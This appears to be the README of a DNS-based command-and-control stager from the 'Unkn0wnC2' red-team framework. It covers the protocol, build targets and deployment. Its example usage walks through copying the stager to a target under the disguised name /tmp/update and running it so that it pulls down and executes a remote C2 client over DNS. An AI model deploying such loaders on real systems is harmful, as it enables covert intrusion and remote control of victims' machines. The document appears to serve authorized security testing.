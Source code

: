 # Unkn0wnC2 DNS Stager

A lightweight C stager that downloads and executes the full DNS C2 client via DNS TXT records.

## Overview

The stager is a small, standalone executable that:
1. Sends system information to the C2 server via DNS
2. Receives the full client binary in chunks through DNS TXT records
3. Decompresses and writes the client to disk
4. Executes the client

## Protocol Flow

```
1. Stager → Server:  base36(STG|<IP>|<OS>|<ARCH>)  [via DNS subdomain]
2. Server → Stager:  base36(META|<total_chunks>)   [via TXT record data]
3. Stager → Server:  base36(ACK|0)                 [via DNS subdomain]
4. Server → Stager:  base36(CHUNK|<base64_data>)   [via TXT record data]
5. Stager → Server:  base36(ACK|1)                 [via DNS subdomain]
6. Server → Stager:  base36(CHUNK|<base64_data>)   [via TXT record data]
   ... continues until all chunks received ...
7. Stager: Decodes base36 → Assembles base64 → Decodes → Decompresses → Writes → Executes
```

**Note:** Stager messages use Base36 encoding (not encryption) for DNS compatibility.
The chunked client data is base64 encoded, wrapped in base36 encoded CHUNK messages.

## Building

### Prerequisites

**Linux:**
- GCC compiler: `sudo apt-get install gcc`
- zlib development libraries: `sudo apt-get install zlib1g-dev`
- MinGW-w64 for Windows cross-compilation: `sudo apt-get install mingw-w64`

**From Project Root:**
```bash
./build.sh
```

This will automatically build the stagers along with the server and client.

**From Stager Directory:**
```bash
cd Stager
bash build.sh
```

**Using Makefile:**
```bash
cd Stager

# Build all variants
make all

# Build specific targets
make linux        # All Linux variants
make windows      # All Windows variants
make linux-x64    # Linux 64-bit only
make win-x64      # Windows 64-bit only

# Custom DNS server and domain
make DNS_SERVER=1.1.1.1 C2_DOMAIN=example.com
```

## Build Outputs

Built stagers are placed in `build/stager/`:

- `stager-linux-x64` - Linux 64-bit
- `stager-windows-x64.exe` - Windows 64-bit

## Deployment

1. Build the stager with appropriate DNS server and C2 domain
2. Deploy the stager to target system
3. Ensure the C2 server has the client binary in the `build/` directory
4. Execute the stager - it will download and run the full client

## Configuration

The stager is configured at compile time:

- **DNS_SERVER**: DNS server to query (default: 8.8.8.8)
- **C2_DOMAIN**: C2 domain name (default: secwolf.net)

Configuration is automatically pulled from `build_config.json` during build.

## Technical Details

### DNS Compatibility
- All communication uses standard DNS TXT queries
- Queries go through recursive resolvers (never directly to C2 server)
- Stager messages encoded with Base36 for DNS-safe transmission (no encryption)
- Base36 allows use of 0-9 and a-z characters in subdomains
- Adheres to DNS label limits (63 characters per label)
- TXT record data limited to 255 bytes per string
- Cache busting via timestamps

### Data Encoding
- **Stager queries**: Base36 encoded (STG|IP|OS|ARCH and ACK|N)
- **Server responses**: Base36 encoded (META|N and CHUNK|data)
- **Client data within chunks**: Base64 encoded, gzip compressed
- **Overall flow**: Message → Base36 → DNS query → TXT response → Base36 decode → Extract base64 client data
- Split into 200-byte chunks for safe DNS transmission

### Server Requirements
- Server must have client binary at:
  - `build/dns-client-windows.exe` for Windows targets
  - `build/dns-client-linux` for Linux targets

## Limitations

- **Windows stagers**: Skip decompression (server sends uncompressed base64)
- **Maximum size**: Practical limit ~1MB for client binary (depends on DNS infrastructure)
- **Network**: Requires outbound DNS (UDP port 53)

## Security Considerations

⚠️ **This is for authorized testing only**

- Stager messages use Base36 encoding but **NOT encryption** (for simplicity and size)
- Base36 provides DNS compatibility but not confidentiality
- Client binary data is base64 encoded within base36-wrapped CHUNK messages
- Stager binaries are not obfuscated
- Network traffic follows predictable DNS patterns
- Client binary written to disk in clear
- No authentication of server responses
- Designed for lab/testing environments

**Why no encryption for stager?**
- Keeps stager binary small (~30KB)
- Stager is meant to be disposable/ephemeral
- Client data chunks are still obscured via base64 within base36
- Full client uses AES-GCM encryption for actual C2 operations

## Troubleshooting

**Build errors:**
- Ensure all dependencies are installed
- Check GCC and cross-compiler versions
- Verify zlib development headers are available

**Runtime issues:**
- Verify DNS connectivity to configured DNS server
- Check C2 server has client binary in correct location
- Ensure C2 server is running and authoritative for domain
- Review server logs for stager connection attempts

**DNS resolution failures:**
- Test DNS resolution: `nslookup example.com <DNS_SERVER>`
- Verify no DNS filtering/blocking in network path
- Check firewall allows outbound UDP port 53

## Example Usage

```bash
# On attacker system (build)
cd Stager
make DNS_SERVER=8.8.8.8 C2_DOMAIN=secwolf.net linux-x64

# Transfer stager to target
scp stager-linux-x64 user@target:/tmp/update

# On target system (execute)
chmod +x /tmp/update
/tmp/update

# Stager will:
# 1. Contact C2 server via DNS
# 2. Download client binary
# 3. Execute client in background
# 4. Client begins normal C2 operations
```

## Development

### Adding New Platforms

Edit `getClientPath()` in `Server/c2_manager.go`:

```go
clientMap := map[string]string{
    "darwin/amd64": "build/dns-client-macos",
    // Add new platform mappings
}
```

### Adjusting Chunk Size

Edit `CHUNK_SIZE` in `stager.c` and `chunkSize` in `Server/c2_manager.go`:

```c
#define CHUNK_SIZE 200  // Smaller = more DNS queries, more reliable
```

## License

Part of the Unkn0wnC2 framework. For authorized security testing only.
